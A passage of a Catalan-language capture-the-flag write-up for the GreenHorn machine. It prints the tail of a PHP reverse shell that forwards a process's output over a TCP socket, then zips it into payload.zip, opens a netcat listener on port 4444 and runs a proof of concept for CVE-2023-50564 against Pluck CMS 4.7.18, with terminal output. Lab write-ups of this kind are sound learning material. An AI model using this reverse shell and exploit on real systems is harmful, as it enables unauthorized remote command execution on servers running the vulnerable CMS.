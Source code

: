 ```
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> `
```

Ara creem el payload.zip que contindrà el shell.php que acabem de fer:

``sudo zip -r payload.zip shell.php``

Ara, amb netcat obrirem un port per on escoltarem, el mateix que hem indicat a l'script en shell.php:

``nc -lvnp 4444``

I executarem l'script en python que és el POC:

``python poc.py ``

Ara hem de posar la ruta on tenim el zip:

```
┌──(polkali㉿kaliPol)-[~/Documents/GreenHorn/CVE-2023-50564_Pluck-v4.7.18_PoC]
└─$ python poc.py             
ZIP file path: ./home/polkali/Documents/GreenHorn/CVE-2023-50564_Pluck-v4.7.18_PoC/payload.zip`
```

Ara veiem el següent resultat:

```
┌──(polkali㉿kaliPol)-[~/Documents/GreenHorn/CVE-2023-50564_Pluck-v4.7.18_PoC]
└─$ python poc.py             
ZIP file path: ./payload.zip
Login account
ZIP file download.`
```
